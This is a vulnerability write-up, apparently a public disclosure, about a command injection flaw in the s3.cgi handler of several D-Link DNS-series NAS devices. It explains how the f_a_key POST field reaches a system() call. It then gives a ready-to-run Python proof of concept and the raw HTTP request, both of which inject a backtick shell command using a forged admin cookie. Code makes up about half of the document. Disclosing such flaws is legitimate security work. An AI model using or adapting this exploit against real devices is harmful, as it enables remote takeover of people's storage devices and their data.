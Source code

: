 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_s3 function of the file /cgi-bin/s3.cgi.  The variable `f_a_key`is passed from a POST request and is assigned to `v6` via the `snprintf` function at line 58 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723734887159-58f00c30-75fe-4114-8724-f71d382a14ad.png#averageHue=%23fefefd&clientId=u31f1ee6a-4414-4&from=paste&height=1051&id=uf5f86eae&originHeight=1051&originWidth=1707&originalType=binary&ratio=1&rotation=0&showTitle=false&size=129266&status=done&style=none&taskId=uf135c9d1-6129-4130-b367-f94e04cbd10&title=&width=1707)
# POC
```java
import requests

url = "http://192.168.0.32/cgi-bin/s3.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_s3&f_ups_ip=1&f_flag=1&path=/tmp&f_schedule_type=1&f_hour=1&f_job_name=1&f_dir=1&f_job_name=v14&f_dir=v27&f_a_key=`touch%09/tmp/125`&f_p_key=1&f_b_path=v12&f_location=v26&f_backuptype=v24&f_local_path=v7&f_schedule_type=v22&f_backup_now=v21&f_mon=v20&f_day=v16&f_hour=v19&f_min=1&s_type=v25&f_week=v17"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```java
POST /cgi-bin/s3.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_s3&f_ups_ip=1&f_flag=1&path=/tmp&f_schedule_type=1&f_hour=1&f_job_name=1&f_dir=1&f_job_name=v14&f_dir=v27&f_a_key=`touch%09/tmp/125`&f_p_key=1&f_b_path=v12&f_location=v26&f_backuptype=v24&f_local_path=v7&f_schedule_type=v22&f_backup_now=v21&f_mon=v20&f_day=v16&f_hour=v19&f_min=1&s_type=v25&f_week=v17
```

